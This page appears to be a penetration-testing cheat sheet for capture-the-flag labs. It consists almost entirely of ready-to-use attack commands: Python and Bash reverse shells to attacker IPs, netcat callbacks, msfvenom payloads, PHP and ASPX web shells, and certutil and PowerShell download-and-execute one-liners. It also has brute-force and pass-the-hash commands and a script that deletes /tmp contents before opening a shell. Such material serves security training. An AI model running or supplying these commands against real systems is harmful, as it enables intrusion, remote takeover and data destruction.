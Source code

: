 ```yaml
---
# the default layout is 'page'
icon: fas fa-info-circle
order: 2
---
```


<div align="center">
<h2>Helpful Syntaxes</h2>
</div>

| **Action** | **Syntax** |
| --- | --- |
| Dirbusting | `gobuster dir --url http://10.10.10.56/82/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,txt,php,asp,aspx`<br>`dirbuster&`<br>`dirsearch -u http://10.10.10.9/ -e php -x 403,404 -t 50` |
| Setting up a listener | `nc -nlvp 4444`<br>`C:\wmpub\nc.exe -e cmd.exe 10.10.14.46 1556`<br>`?cmd=nc.exe -e cmd.exe 10.10.14.31 4314` |
| Python reverse shell | `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.16",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` |
| Simple file/exploit creation | `echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.46",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > exploit.py` |
| Local exploit suggester | `run post/multi/recon/local_exploit_suggester` |
| msfvenom payload | `msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.7 LPORT=1234 -o shell.aspx` |
| curl usage | `curl -X MOVE --header 'Destination:http://10.10.10.15/test.aspx' 'http://10.10.10.15/test.html'`<br>`curl -X PUT http://10.10.10.15/shell.txt -d @shell.txt` |
| Generic meterpreter shell | `use exploit/multi/handler`<br>`set payload windows/meterpreter/reverse_tcp` |
| Hosting the file for making it downloadable for another user | `sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .`<br>`copy \\10.10.14.46\kali\churrasco.exe C:\wmpub\churrasco.exe`<br>`copy \\10.10.14.46\kali\churrasco.exe C:\wmpub\churrasco.exe 1 file(s) copied.` |
| Hydra bruteforce | `hydra 10.10.10.43 -l muq -P /usr/share/seclists/Passwords/twitter-banned.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password”` |
| PHP injection | `<?php system($_REQUEST["cmd"]); ?>`<br>`<?php echo system($_REQUEST['cmd']); ?>` |
| Bash reverse shell | `bash -c 'bash -i >%26 /dev/tcp/10.10.14.19/443 0>%261'` |
| Bash spawn / Python | `python -c 'import pty;pty.spawn("bash")'` |
| Shell upgrade | `stty -a`<br>`stty raw -echo;fg —> hit enter twice`<br>`stty rows`<br>`stty cols` |
| Script for listing processes | `#!/bin/bash`<br>`#loop by line`<br>`IFS=$'\n'`<br>`old_process=$(ps -eo command)`<br>`while true; do new_process=$(ps -eo command)`<br>`diff <(echo "$old_process") <(echo "$new_process") |grep [\<\>]`<br>`sleep 1`<br>`old_process=$new_process done` |
| Checking for hidden content inside an image | `binwalk -Me` |
| Python code cleanup format | `:%s/;/\r/g` |
| Windows exploit suggester script | `python windows-exploit-suggester.py -d 2024-08-02-mssb.xls -i sysinfo.txt` |
| Searchsploit | `-x ; to look up the content of the exploit , mousepad for gui ,  -m to download` |
| Copying nc | `cp /usr/share/windows-binaries/nc.exe .` |
| Simple HTTPS server | `python -m SimpleHTTPServer 80` |
| Getting something from the simple server [WINDOWS-powershell] | `powershell -c "Invoke-WebRequest -Uri http://10.10.14.8/41020.exeChimichurri.exe -OutFile C:\ColdFusion8\runtime\bin\Chimichurri.exe"` |
| Hashcat | `hashcat -m 100 hash.txt /usr/share/wordlists/rockyou.txt` |
| Certutil | `certutil -urlcache -f http://10.10.14.41/Chimichurri.exe chimichurri.exe`<br>`?cmd=certutil.exe -f -urlcache -split http://10.10.14.31/nc.exe nc.exe` |
| Wpscan script | `wpscan —url https://brainfuck.htb — disable-tls-checks` |
| John usage | `john crackthis --wordlist=/usr/share/wordlists/rockyou.txt` |
| SSH login w RSA key | `ssh -i  id_rsa orestis@brainfuck.htb` |
| PHP shell | `<?php system($_REQUEST["cmd"]); ?>` |
| DNS zone transfer | `USAGE- dig axfr @<DNS_IP> <DOMAIN>` |
| PHP reverse shell | `https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php` |
| Useful nmap script | `—script=oracle-sid-brute 10.10.10.12` |
| Nishang reverse shell | `cp /opt/powershell/nishang/Shells/Invoke-PowerShellTcp.ps1` |
| ASPX web shell | `/usr/share/webshells/aspx/cmdasp.aspx muq.aspx` |
| Using PowerShell to exec. content downloaded as a string | `powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31:8000/nish.ps1')` |
| Volatility | `python3 http://vol.py/ -f ~/Downloads/SILO-20180105-221806.dmp kdbgscan`<br>`python2 http://vol.py/ -f ~/Downloads/SILO-20180105-221806.dmp --profile Win2012R2x64 pstree` |
| Using hash dump | `pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7 https://10.10.10.82/ cmd` |
| Reverse shell | `#!/usr/bin/env python`<br>`import os`<br>`import sys`<br>`try:`<br>`os.system('rm -r /tmp/* ')`<br>`except:`<br>`sys.exit()`<br>`os.system('bash -c "bash -i >& /dev/tcp/10.10.14.47/443 0>&1"')` |

<br>

<div align="center">
<h2>Useful Links</h2>
</div>
  

| **Description** | **Link** |
| --- | --- |
| Reverse shell cheat sheet | [Pentestmonkey Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) |
| SQL injection cheat sheet | [SQL Injection Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/) |
| Crontab Guru | [Crontab Guru](https://crontab.guru/) |
| PHP reverse shell | [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) |

